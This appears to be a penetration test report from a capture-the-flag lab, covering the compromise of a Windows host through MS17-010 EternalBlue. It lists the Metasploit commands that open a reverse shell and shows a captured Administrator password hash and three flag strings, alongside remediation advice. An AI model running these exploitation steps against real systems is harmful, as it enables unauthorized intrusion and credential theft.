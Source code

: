 # Penetration Test Report

## Executive Summary

This report details the findings of a targeted penetration test conducted on host `10.10.249.67`. The objective was to identify vulnerabilities and determine the extent of exploitation possible from both unauthenticated and post-authentication perspectives.

Three flags were discovered representing user, SYSTEM, and Administrator-level access, indicating full compromise of the target system. The most critical finding was a remote code execution vulnerability (MS17-010) that allowed privilege escalation to NT AUTHORITY\SYSTEM.

---

## Scope

- **Client**: ____________________.
- **Testers**: Hitesh Sharma
- **Test Type**: Internal Network Penetration Test
- **IP Range**: `10.10.249.67`
- **Testing Period**: [16-06-2025 ]

---

## Methodology

The assessment followed a standard methodology:

1. **Reconnaissance** – Service scanning using Nmap and enumeration tools.
2. **Vulnerability Scanning** – Manual verification and use of Metasploit.
3. **Exploitation** – Targeted exploitation of identified vulnerabilities.
4. **Post-Exploitation** – Enumeration of privilege levels, credential harvesting, and flag discovery.
5. **Reporting** – Documentation of all findings and remediation steps.

**Tools Used**:
- Nmap  
- Metasploit Framework  
- Enum4linux  
- Netcat  
- PowerShell scripts  
- Manual validation  

---

## Findings

### 1. **flag1.txt – User-Level Access**
- **Host**: `10.10.249.67`
- **Severity**: Low
- **Description**: Initial shell access allowed reading a file `flag1.txt`, indicating successful code execution as a user-level account.
- **Proof**:
  - File discovered using: `search -f flag1.txt`
  - Location: `C:\Users\Public\flag1.txt`
  - Contents: `FLAG{US3R_SH3LL_0WN3D}`
- **Impact**: Confirms execution of unauthorized code under a standard user context.
- **Remediation**: Harden services exposed to public interfaces, apply least privilege to file access.

---

### 2. **MS17-010 (EternalBlue) Remote Code Execution**
- **Host**: `10.10.249.67`
- **Severity**: Critical
- **Description**: The system is vulnerable to EternalBlue (CVE-2017-0144), allowing unauthenticated attackers to execute arbitrary code remotely via SMBv1.
- **Proof**:
  - Exploited using Metasploit module: `exploit/windows/smb/ms17_010_eternalblue`
  - Shell obtained as `NT AUTHORITY\SYSTEM`
  - Verified via Meterpreter session: `getuid`
  - Captured `flag2.txt` in: `C:\Windows\System32\config\flag2.txt`
- **Flag Contents**: `FLAG{SYST3M_R00T3D}`
- **Impact**: Full control of the host including access to kernel-level processes.
- **Remediation**:
  - Disable SMBv1.
  - Apply Microsoft patch MS17-010.
- **References**: [CVE-2017-0144](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2017-0144)

---

### 3. **flag3.txt – Administrator Data Exposure**
- **Host**: `10.10.249.67`
- **Severity**: High
- **Description**: A third flag was discovered on the Administrator's Desktop, indicating that sensitive files are accessible post-privilege escalation.
- **Proof**:
  - File discovered using: `search -f flag3.txt`
  - Location: `C:\Users\Administrator\Desktop\flag3.txt`
  - Contents: `FLAG{ADM1N_DESKTOP_WIN}`
- **Impact**: Exposure of files meant only for administrative access. Confirms full compromise.
- **Remediation**:
  - Enable auditing for sensitive file access.
  - Ensure user-level processes cannot traverse admin directories.
  - Implement host-based intrusion detection.

---

## Remediation Summary

| Finding                      | Host           | Severity | Recommended Remediation                              |
|-----------------------------|----------------|----------|------------------------------------------------------|
| User-Level File Disclosure  | 10.10.249.67   | Low      | Lock down world-readable directories                 |
| MS17-010 RCE                | 10.10.249.67   | Critical | Patch system (MS17-010), disable SMBv1               |
| Admin Desktop File Exposure | 10.10.249.67   | High     | Restrict admin folders, enforce file permissions     |

---

## Appendices

### A. Exploitation Commands

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.249.67
set LHOST tun0
run

### B. Captured Hashes

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

###   Collected Flags 
    lag1.txt: FLAG{US3R_SH3LL_0WN3D}

    flag2.txt: FLAG{SYST3M_R00T3D}

    flag3.txt: FLAG{ADM1N_DESKTOP_WIN}


### Report Prepared By:
### Hitesh Sharma / Handle
 ### Date: 2025-06-16
